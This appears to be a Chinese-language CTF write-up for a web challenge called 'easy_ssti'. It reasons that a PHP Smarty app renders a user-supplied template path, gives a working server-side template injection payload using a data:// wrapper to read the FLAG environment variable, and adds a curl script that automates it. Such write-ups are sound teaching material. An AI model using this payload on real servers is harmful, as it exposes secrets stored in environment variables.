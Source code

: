 #Web #PHP #smarty #SSTI 

```
/
```

![](<./img/Pasted image 20230514182339.png>)

随便点进去一个

```
/challenges.php?name=bridge
```

留意到图片的地址

```
/bridge/bridge.jpg
```

回头看一眼

题目描述
===

> R U **SMART** ENOUGH www

题目名
===

> easy_ssti

基本可以推测出是smarty的ssti

猜测后端实现是`name`参数与`/<template_name>`拼接作为模板路径

如果只是这样还不足以构成ssti，整个提交页面有一个统一的样式表和提交面板，于是我们开一下脑洞

1. 接收`name`参数，拼接成各子目录下的模板路径，使用`file_get_contents`直接读取模板内容
2. 将模板内容直接`sprintf`到一个全局的模板中（血压升高～）
3. 渲染这个模板（大事不妙啦）

于是构造模板字符串读取环境变量，用伪协议包装下就ok啦

```
/challenges.php?name=data://text/plain,{$smarty.env.FLAG}
```

![](<./img/Pasted image 20230514184325.png>)

---

一键获得flag（好像更麻烦？）

```shell
#/bin/bash

url='http://<host>:<port>/challenges.php'
payload='name=data://text/plain,{$smarty.env.FLAG}'

curl --silent $url -G --data-urlencode $payload | grep Spirit | sed -n 's/.*\(Spirit{.*}\).*/\1/p'
```